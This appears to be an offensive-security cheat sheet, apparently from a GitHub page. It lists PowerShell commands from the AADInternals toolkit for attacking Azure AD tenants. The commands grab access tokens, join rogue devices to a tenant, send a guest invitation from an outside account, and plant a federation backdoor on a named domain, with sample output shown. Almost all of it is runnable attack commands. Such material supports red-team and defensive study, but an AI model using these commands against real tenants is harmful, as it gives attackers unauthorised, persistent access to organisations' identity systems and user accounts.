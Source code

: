 ### Join On Prem Device to Hybrid AzureAD
```powershell
#### Get an access token and save to cache
Get-AADIntAccessTokenForAADGraph -SaveToCache
#### Join the device to Azure AD
Join-AADIntOnPremDeviceToAzureAD -DeviceName "workstation-432"

### Join as AzureAd Device 
#### Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
#### Register the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "My first computer" -DeviceType "Commodore" -OSVersion "Vic20" -JoinType Register
```

### Guest User (doesnt accept PUT requests error)
```powershell
#### Get the auth token. Supports also external users (outlook.com, etc.)
$zt=Get-AADIntAccessTokenForAADIAMAPI -Credentials (Get-Credential)
#### Get login information for a domain
$user1 = "mellosec@outlook.com"
$email= $user1
New-AADIntGuestInvitation -AcessToken $zt -EmailAddress $email -Message "Welcome to our tenant!"
```

### Backdoors
```powershell
#### Set authentication method to managed
Get-AADIntAccessTokenForAADGraph -SaveToCache
Set-AADIntDomainAuthentication -DomainName $tenant -Authentication Managed
New-AADIntBackdoor -DomainName Sharprootelectricalservices.com

# Authentication     : Managed
# Capabilities       : None
# IsDefault          : false
# IsInitial          : false
# Name               : Sharprootelectricalservices.com
# RootDomain         :
# Status             : Unverified
# VerificationMethod :


# IssuerUri : http://any.sts/3E30209
# Domain    : Sharprootelectricalservices.com
```

